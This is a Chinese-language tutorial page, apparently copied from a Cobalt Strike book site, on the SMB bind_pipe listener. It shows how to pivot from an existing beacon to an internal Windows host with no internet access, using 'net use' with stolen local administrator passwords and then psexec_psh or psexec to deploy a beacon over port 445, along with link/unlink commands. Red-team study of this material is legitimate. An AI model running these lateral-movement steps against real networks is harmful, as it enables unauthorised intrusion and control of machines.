

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/13.html](http://book.iwonder.run/Tools/Cobalt Strike/13.html)

## windows/beacon_smb/bind_pipe [ 一个专门为多层内网正向级联而设计的监听器 ]

> 先来假设这么一种场景,你当前已经拿到了目标内网中的一台机器的 beacon shell,然后又通过其它方式搞到了同内网下的另一台 windows 机器的本地 administrator 密码且这台机器的 smb[445 端口]能正常通,不幸的是,由于各种各样的原因限制,那台 windows 机器并不能正常访问外网,也就是说没法再正常的反弹 beacon shell 了,那么前面那些反向监听器也就全都用不上了,而我现在就想通过当前仅有的这个 beacon shell 能不能把内网那台不能正常访问外网的机器也一块给带出来呢? 答案是肯定的,bind_pipe 就是专为适应这种实战场景而设计的
> 
> 首先,新建一个 bind_pipe 监听器,端口随意,其实端口用不用都无所谓,它是通过管道过去的,只要对方机器的 445 端口保持畅通就行,ip 保持默认即可


> 接着,通过 ipc 加上目标系统的本地 administrator 账号密码连到目标机器上,之后再用 beacon 内置的 psexec_psh 功能远程执行 powershell,此处唯一需要注意的就是,最后的那个监听器要选择上面创建的那个"smb – bind", 在此之后便可获得一个内网机器的正向 beacon,这就相当于把内网所有"脱网"机器的都挂到了当前这台机器上,然后一并给带出来,仔细看下那个链状标记,意思其实就是级联,具体如下

```
beacon> shell net use \\192.168.3.11\admin$ /user:"administrator" "Admin12345"
beacon> psexec_psh 192.168.3.11 smb - bind 直接远程执行 powershell payload,此处暂时不懂没关系 
```


> 点击工具栏中耳机旁边的那个三点的形状,现在看的就非常清晰了,根据箭头指向,层级关系一目了然



> smb bind 监听器还有个好处就是,不用的时候可以先把目标机器断开,用的时候再连上就行了,无非就是个 link,unlink 动作,这样可以尽可能渐少暴露面,实战中相对灵活些,另外,不得不说得是,所有的 bind 都有个最大的问题就是目标系统各种防火墙的问题,如果目标系统直接阻断了 445 端口通信,很显然就 bind 不过去了,当然啦, payload 自身的免杀是另外一个问题, 注: beacon 内置的 psexec *系列功能实测较适用于 2008r2 之下的系统, 2012r2 之后的系统,很难 bind 成功

```
beacon> shell net use \\192.168.3.5\admin$ /user:"administrator" "admin"
beacon> psexec 192.168.3.5 admin$ smb - bind 不同于 psexec_psh 直接执行 powershell payload,psexec 是先把 exe payload 通过管道 copy 过去再执行
beacon> unlink 192.168.3.5
beacon> link 192.168.3.5 
```


